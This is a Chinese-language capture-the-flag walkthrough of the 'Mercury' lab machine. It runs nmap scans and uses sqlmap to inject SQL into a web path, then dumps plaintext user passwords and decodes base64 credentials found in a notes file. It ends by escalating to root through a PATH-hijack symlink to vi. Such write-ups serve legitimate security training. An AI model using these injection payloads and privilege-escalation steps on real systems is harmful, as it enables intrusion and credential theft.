

## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.7                                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 20:40 CST
Nmap scan report for 10.10.10.7
Host is up (0.0029s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 00:0C:29:F7:81:70 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds


┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,8080 10.10.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 20:41 CST
Nmap scan report for 10.10.10.7
Host is up (0.00054s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Thu, 29 Feb 2024 20:41:16 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html
|     X-Frame-Options: DENY
|     Content-Length: 2366
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 29 Feb 2024 20:41:16 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Content-Length: 69
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Hello. This site is currently in development please check back later.
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=2/29%Time=65E07B6C%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2029\x20Feb\x
SF:202024\x2020:41:16\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.8
SF:\.2\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:
SF:\x20DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x20nosniff
SF:\r\nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20site\x20i
SF:s\x20currently\x20in\x20development\x20please\x20check\x20back\x20later
SF:\.")%r(HTTPOptions,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2029\x
SF:20Feb\x202024\x2020:41:16\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPyth
SF:on/3\.8\.2\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-O
SF:ptions:\x20DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x20
SF:nosniff\r\nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20si
SF:te\x20is\x20currently\x20in\x20development\x20please\x20check\x20back\x
SF:20later\.")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C/
SF:/DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://w
SF:ww\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20c
SF:ontent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<t
SF:itle>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x
SF:20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RT
SF:SP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20e
SF:xplanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax
SF:\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>
SF:\n")%r(FourOhFourRequest,A28,"HTTP/1\.1\x20404\x20Not\x20Found\r\nDate:
SF:\x20Thu,\x2029\x20Feb\x202024\x2020:41:16\x20GMT\r\nServer:\x20WSGIServ
SF:er/0\.2\x20CPython/3\.8\.2\r\nContent-Type:\x20text/html\r\nX-Frame-Opt
SF:ions:\x20DENY\r\nContent-Length:\x202366\r\nX-Content-Type-Options:\x20
SF:nosniff\r\nReferrer-Policy:\x20same-origin\r\n\r\n<!DOCTYPE\x20html>\n<
SF:html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"content-typ
SF:e\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>Page\x2
SF:0not\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\n\x20\
SF:x20<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\x20<st
SF:yle\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20padding:0
SF:;\x20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:10px\x2
SF:020px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\x20}\n
SF:\x20\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20background:#e
SF:ee;\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-bottom
SF::1px\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weight:nor
SF:mal;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20{\x20f
SF:ont-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x20\x20\
SF:x20table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x20width
SF::100%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:");
MAC Address: 00:0C:29:F7:81:70 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds


┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sU --top-ports 100  10.10.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 20:43 CST
Nmap scan report for 10.10.10.7
Host is up (0.00052s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
MAC Address: 00:0C:29:F7:81:70 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 112.06 seconds

```

## web渗透

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script=vuln -p 22,8080 10.10.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 20:44 CST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.7
Host is up (0.00050s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
| http-enum: 
|_  /robots.txt: Robots file
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
MAC Address: 00:0C:29:F7:81:70 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 548.05 seconds
```
这里可以看到有个robots文本
打开看一下其实啥也没有

目录扫描过程非常慢
并且没有结果
感觉没什么攻击面
于是直接在ip后面目录穿梭

这里发现存在一个`mercuryfacts/`目录

点击load a fact发现一个mercuryfacts/1/的目录
猜测存在sql注入

sqlmap直接跑

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo sqlmap -u 'http://10.10.10.7:8080/mercuryfacts/1*/' --batch -D mercury -T users --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:06:45 /2024-02-29/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[21:06:45] [INFO] resuming back-end DBMS 'mysql' 
[21:06:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://10.10.10.7:8080/mercuryfacts/1 AND 7622=7622/

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://10.10.10.7:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x717a6a6271,(SELECT (ELT(7118=7118,1))),0x716a707a71),7118)/

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://10.10.10.7:8080/mercuryfacts/1;SELECT SLEEP(5)#/

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.7:8080/mercuryfacts/1 AND (SELECT 9875 FROM (SELECT(SLEEP(5)))dsPf)/

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://10.10.10.7:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x717a6a6271,0x5550657853414d664947757a657577737275794f61666b5265574e68514f56746d554b4c68487052,0x716a707a71)-- -/
---
[21:06:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[21:06:45] [INFO] fetching columns for table 'users' in database 'mercury'
[21:06:45] [WARNING] reflective value(s) found and filtering out
[21:06:45] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+

[21:06:45] [INFO] table 'mercury.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.10.7/dump/mercury/users.csv'
[21:06:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.10.7'

[*] ending @ 21:06:45 /2024-02-29/
```
得到用户信息及passwd
尝试ssh

## 第一个ssh立足点

不出意外只能登录一个web用户的ssh
```bash
┌─[fforu@parrot]─[~/workspace/Mercury]
└──╼ $sudo ssh webmaster@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
ED25519 key fingerprint is SHA256:mHhkDLhyH54cYFlptygnwr7NYpEtepsNhVAT8qzqcUk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (ED25519) to the list of known hosts.
webmaster@10.10.10.7's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 29 Feb 13:16:56 UTC 2024

  System load:  0.03              Processes:              196
  Usage of /:   73.4% of 4.86GB   Users logged in:        0
  Memory usage: 29%               IPv4 address for ens33: 10.10.10.7
  Swap usage:   0%


22 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
New release '22.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Tue Sep  1 13:57:14 2020 from 192.168.31.136
webmaster@mercury:~$ whoami
webmaster
webmaster@mercury:~$ cat /etc/passwd |grep home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
mercury:x:1000:1000:mercury:/home/mercury:/bin/bash
webmaster:x:1001:1001:,,,:/home/webmaster:/bin/bash
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt
webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]

```
看到一共有四个用户

```bash
webmaster@mercury:~$ cd mercury_proj/
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster/mercury_proj$ 


┌─[✗]─[fforu@parrot]─[~/workspace/Mercury]
└──╼ $echo -n 'bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK' |base64 -d
mercuryisthesizeof0.056Earths
┌─[fforu@parrot]─[~/workspace/Mercury]
└──╼ $echo -n 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' |base64 -d
mercurymeandiameteris4880km
```
查看notes文件发现linuxmaster的用户密码也得知了


## 软连接提权

```bash
linuxmaster@mercury:~$ ln -s /bin/vi tail
linuxmaster@mercury:~$ ls -la
total 28
drwx------ 3 linuxmaster linuxmaster 4096 Feb 29 13:32 .
drwxr-xr-x 5 root        root        4096 Aug 28  2020 ..
lrwxrwxrwx 1 linuxmaster linuxmaster    9 Sep  1  2020 .bash_history -> /dev/null
-rw-r--r-- 1 linuxmaster linuxmaster  220 Aug 28  2020 .bash_logout
-rw-r--r-- 1 linuxmaster linuxmaster 3771 Aug 28  2020 .bashrc
drwx------ 2 linuxmaster linuxmaster 4096 Aug 28  2020 .cache
-rw-r--r-- 1 linuxmaster linuxmaster  807 Aug 28  2020 .profile
lrwxrwxrwx 1 linuxmaster linuxmaster    7 Feb 29 13:32 tail -> /bin/vi
-rw------- 1 linuxmaster linuxmaster 1282 Feb 29 13:25 .viminfo
linuxmaster@mercury:~$ ls
tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh

```
软连接到vi
然后vi提权即可

```bash
root@mercury:/home/linuxmaster# whoami
root
root@mercury:/home/linuxmaster# ls /root
root_flag.txt
root@mercury:/home/linuxmaster# cat /root/root_flag.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
root@mercury:/home/linuxmaster# 
```